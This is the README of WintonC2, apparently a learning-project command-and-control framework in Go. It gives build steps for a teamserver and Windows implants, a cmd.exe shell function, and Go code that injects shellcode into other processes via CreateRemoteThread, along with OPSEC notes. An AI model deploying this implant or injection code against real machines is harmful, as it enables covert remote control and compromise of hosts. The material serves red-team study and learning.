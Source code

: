 ![Winton](https://i.imgur.com/Pmrv5t7.png)

<div align="center">
<h1>WintonC2</h1>

<i>Yet another Command and Control (C2) framework written in Go</i>
</div>

I wrote this to learn more about C2 internals, OPSEC considerations in beacon and to learn Golang _(i still can't get function imports to work)_.


## Features
### Teamserver
> Written in Golang 1.21.1 (tested on Windows/AMD64)
- Support for multiple listeners, but only HTTP is implemented
- Multiple agents & asynchronous callbacks
- Todo: HTTPS listener, authentication & internal API for operator interaction 

### Implant
> Written in Golang 1.21.1 (tested on Windows/AMD64) 
- Built-ins are implemented via the Golang standard library, may spawn cmd.exe
- Supported commands: `ls`, `whoami`, `pwd`, `shell`, `ps`, `getpid`, `inject`
- Process Injection via `CreateRemoteThread`
  
![WintonC2](https://i.gyazo.com/e10bcbdd23217af2032ba1de39639ed5.png)

### Client
> Written in Python 3.9+ 
- Communicates directly with the `teamserver`

## Compilation
The `teamserver` compiles to a single golang binary:
```bash
cd ./teamserver && make 
cd ./bin && ./teamserver <ip> <port> <password>
```

The Go agent `Wonton` is compiled to a single golang binary:
```bash
cd './implan/Wonton (GO)\' && make
cd ./bin && ./winton-win64.exe
```

The C agent `Wanton` has a MSVC solution file, compile the solution in `Release` mode (not really maintained, probably broken):
```bash
gcc -Wall -std=c99 -o Wanton.exe Commands.c Main.c Utils.c -lcurl
```
_A Makefile is not provided because I am lazy_

## Change Log

#### 24/11/2023 - Shellcode Injection via CreateRemoteThread (Session Passing)
- 2 new commands: `ps` and `inject`
    - `ps` lists all running processes on the target as well as their PID, PPID, Name, Arch, Session & User.
        - `Usage: ps`
![24/11/2023](https://i.imgur.com/GAYSs0m.png)
    - `inject` injects shellcode into a running process via `CreateRemoteThread`
![24/11/2023](https://i.imgur.com/H7OD72D.png)
        - `Usage: inject <pid> <path_to_binfile>`
        - `Example: inject 17952 ../shellcode/calc/calc.bin`
        - The shellcode is loaded from a file, and is base64 encoded before being sent to the target.
        - The shellcode is then decoded and injected into the target process via `CreateRemoteThread`
        ```go
        var kernel32 = windows.NewLazySystemDLL("kernel32.dll")

        var (
            virtualAllocEx      = kernel32.NewProc("VirtualAllocEx")
            writeProcessMemory  = kernel32.NewProc("WriteProcessMemory")
            createRemoteThread  = kernel32.NewProc("CreateRemoteThread")
            WaitForSingleObject = kernel32.NewProc("WaitForSingleObject")
            closeHandle         = kernel32.NewProc("CloseHandle")
        )
        ...
        process_handle, err := windows.OpenProcess(..., uint32(pid), ...)
        ...
        addr, _, err := virtualAllocEx.Call(..., uintptr(len(shellcode)), ..., windows.PAGE_EXECUTE_READWRITE) // BAD
        ...
        _, _, err := writeProcessMemory.Call(..., addr, (uintptr)(unsafe.Pointer(&shellcode[0])), uintptr(len(shellcode)))
        ...
        thread_handle, _, err := createRemoteThread.Call(uintptr(process_handle), 0,  0, addr, 0, 0, 0)

        closeHandle.Call(uintptr(thread_handle))
        closeHandle.Call(uintptr(process_handle))
        ```
    - OPSEC considerations (why this is a budget injection):
        - `VirtualAllocEx` is called with PAGE_EXECUTE_READWRITE
        - Unbacked memory allocation 
        - Thread start address is 0x0 

- `./shellcode/calc/calc.bin` is x64 shellcode that spawns calc.exe ~ [_thanks boku7_](https://github.com/boku7/x64win-DynamicNoNull-WinExec-PopCalc-Shellcode/blob/main/win-x64-DynamicKernelWinExecCalc.asm)
- `./shellcode/beacon/winton-win64.bin` is x64 shellcode that spawns a new beacon ~ [_thanks donut_](https://github.com/TheWover/donut) -
    - generated using [exe2_csh](https://github.com/gatariee/exe2c_sh) 
    - `./exe2sh.py -i winton-win64.exe -o ./shellcode/beacon/winton-win64.bin`

#### 15/11/2023 - Mass codebase refactoring & implementation of shell commands 
- The codebase has been refactored to be more modular and easier to read, (teamserver & go implant)
    - Doesn't exactly follow Go best practices, but it's certainly better than before. 
- The `teamserver` and `implant (go)` now have Makefiles and support for cross-compilation, see [here](./implant/Wonton%20(GO)/Makefile) and [here](./teamserver/Makefile) for more info.
- Added support for `shell` commands in beacon
    - Spawns `cmd.exe /c {task}`, not opsec safe.
```go
func shell(command string) (string, error) {
cmd := exec.Command("cmd.exe", "/c", command)
stdout, err := cmd.Output()
if err != nil {
    return "", err
}
return string(stdout), nil
}
```
![15/11/2023](https://i.imgur.com/JVeojRf.png)

#### 12/11/2023 - Wanton has a better (and much bigger) brother implant! (Wonton)
- The [new implant](./implant/Wonton%20(GO)/) is written in Go.
- Although this was much more convenient to write, Golang binaries have the downside being much larger than C binaries.
    - The C implant is 75KB, the Go implant is 7,165KB.
- The Go implant is also much more stable than the C implant, and has more features.
    - The C implant will be removed in the future.
- Currently has support for 2 commands: `whoami` and `ls`
![12/11/2023](https://i.imgur.com/ZkIaKIw.png)
![12/11/2023](https://i.imgur.com/lcZvWN7.png)

#### 10/11/2023 - Winton now has an agent for Windows! (Wanton)
- The agent is written in C and is extremely unstable! :D, and barely functional.
    - This implant will probably be abandoned cos I hate parsing JSON in C, but this was a nice WinAPI sanity check.
- Currently only has support for `pwd`, but more commands will be added eventually.
    ![10/11/2023](https://i.imgur.com/D2nVffY.png)
#### 9/11/2023 - Beacons can now go offline!
- If the callback from the last beacon is over `Agent.Sleep + 5` seconds, the beacon will be marked as down (_but should still listening for callbacks_).
   - In its current state, the agent gets completely removed from the `AgentList[]` and `AgentCallbacks[]` if it goes offline, this will be changed in the future to allow for offline agents to still be in the list.
    ![9/11/2023](https://i.imgur.com/CZm1eGe.png)
- The change of beacon state is also reflected in the `AgentList[]` and `AgentCallbacks[]` tables
    ![9/11/2023](https://i.imgur.com/p87EHej.png)
